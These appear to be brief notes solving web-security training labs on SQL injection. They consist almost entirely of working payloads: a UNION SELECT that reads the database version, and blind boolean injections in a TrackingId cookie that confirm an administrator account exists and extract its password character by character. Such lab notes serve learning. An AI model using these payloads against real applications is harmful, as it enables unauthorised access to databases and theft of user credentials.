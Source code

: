 
#### 13. SQL injection UNION attack, retrieving multiple values in a single column
category=Pets'union select NULL,version()-- -

#### Blind SQL injection with conditional responses
TrackingId=xyz' AND '1'='1  
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§  
